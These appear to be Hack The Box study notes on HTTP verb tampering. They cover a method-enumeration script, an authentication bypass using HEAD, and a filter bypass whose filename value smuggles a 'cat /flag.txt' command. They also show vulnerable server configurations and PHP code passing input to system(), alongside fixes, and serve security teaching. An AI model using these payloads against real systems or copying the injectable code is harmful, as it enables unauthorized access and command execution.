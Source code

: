 ### Content
* [Overview](#overview)
* [HTTP Verbs](#http-verbs)
* [Check allowed methods by a server](#check-allowed-methods-by-a-server)
* [Scenarios](#scenarios)
	* [Bypassing Basic Authentication](#bypassing-basic-authentication)
	* [Bypassing Security Filters](#bypassing-security-filters)
* [Verb Tampering Prevention](#verb-tampering-prevention)
	* [Insecure Configuration](#insecure-configuration)
	* [Insecure Coding](#insecure-coding)
---
## Overview
[HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)
- **Cause**: HTTP Verb Tampering occurs when an application has inconsistent or incomplete access control checks across different HTTP methods. For example, a resource may have proper authorization checks for `POST` requests but not for `PUT` or `DELETE` requests.
- **Exploitation**: Attackers send requests with unexpected or modified HTTP verbs (e.g., using `PUT` or `DELETE` instead of `GET` or `POST`) to interact with resources in unintended ways. For example, an attacker might change a `GET` request to `DELETE` to attempt deleting data or bypass access restrictions.
- **Impact**:
    - Unauthorized Data Modification
    - Privilege Escalation
    - Information Disclosure
- **Prevention**:
    - Consistent Access Control: Ensure that authorization checks are applied uniformly across all HTTP methods for each resource.
    - Allow Only Required Verbs: Restrict endpoints to allow only the HTTP verbs necessary for their functionality.
    - Server-Side Validation: Validate requests server-side based on user roles and permissions, regardless of HTTP verb.
---
## HTTP Verbs

| Method                                                                         | Description                                                                                                |
| ------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------- |
| [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET)         | Requests a representation of the specified resource                                                        |
| [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)       | Asks for a response identical to a `GET` request, but without a response body                              |
| [`OPTIONS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) | Shows different options accepted by a web server, like accepted HTTP verbs                                 |
| [`TRACE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE)     | Performs a message loop-back test along the path to the target resource                                    |
| [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)         | Writes the request payload to the specified location                                                       |
| [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/DELETE)   | Deletes the specified resource                                                                             |
| [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST)       | Submits an entity to the specified resource, often causing a change in state or side effects on the server |
| [`PATCH`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PATCH)     | Applies partial modifications to a resource                                                                |
| [`CONNECT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/CONNECT) | Establishes a tunnel to the server identified by the target resource                                       |

---
## Check allowed methods by a server
``` bash
k1ng0a21r@htb[/htb]$ curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory
```
Script for automation:
``` bash
#!/bin/bash
for webservmethod in GET POST PUT TRACE CONNECT OPTIONS PROPFIND;
do
printf "$webservmethod " ;
printf "$webservmethod / HTTP/1.1\nHost: $1\n\n" | nc -q 1 $1 80 | grep "HTTP/1.1"
done
```
Usage:
``` bash
k1ng0a21r@htb[/htb]$ ./script 123.1.3.4
GET HTTP/1.1 200 OK
POST HTTP/1.1 200 OK
PUT HTTP/1.1 200 OK
TRACE HTTP/1.1 200 OK
CONNECT HTTP/1.1 400 Bad Request
OPTIONS HTTP/1.1 200 OK
PROPFIND HTTP/1.1 200 OK
```

---
## Scenarios
### Bypassing Basic Authentication
* `401 Unauthorized`
``` HTTP
GET /admin/reset.php? HTTP/1.1
```
* `Accepted`
``` HTTP
HEAD /admin/reset.php? HTTP/1.1
```
### Bypassing Security Filters
* Before HTTP verb tampering
``` HTTP
GET /index.php?filename=file%3b+cat+/flag.txt+ HTTP/1.1
....[SNIP]
```
Results on response:
``` HTML
h4><a href='test'>test</a></h4></li></ul>Malicious Request Denied!</ul>
```
* After HTTP verb tampering
``` HTTP
POST /index.php HTTP/1.1
...[SNIP]
filename=file%3b+cat+/flag.txt+
```
Result on response:
``` HTML
<h4><a href='test'>test</a></h4></li></ul>HTB{b3_v3rb_c0n51573n7}</ul>
```
---
## Verb Tampering Prevention
### Insecure Configuration
* `Apache` Vulnerable configurations.
 Located in the site configuration file (e.g. `000-default.conf`), or in a `.htaccess`.
``` XML
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```
the `Require valid-user` setting will only apply to `GET` requests, leaving the page accessible through other methods.
* `Tomcat` Vulnerable configurations.
  Located in the `web.xml` file for a certain Java web application.
``` XML
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```
* `ASP.NET` Vulnerable configurations.
  Located in the `web.config` file of a web application.
``` XML
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin">
            <deny verbs="GET" users="*">
        </deny>
        </allow>
    </authorization>
</system.web>
```
* If we want to specify a single method, we can use safe keywords:
	* `LimitExcept` in Apache 
	* `http-method-omission` in Tomcat
	* `add`/`remove` in ASP.NET
* We should generally `consider disabling/denying all HEAD requests` unless specifically required by the web application.
### Insecure Coding
Infected code
``` PHP
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```
* The code checks `$_REQUEST['filename']` but validates `$_POST['filename']`. An attacker can bypass the validation by sending the malicious input through `$_GET`.
* The fix would be to consistently use only `$_POST` for both validation and usage
---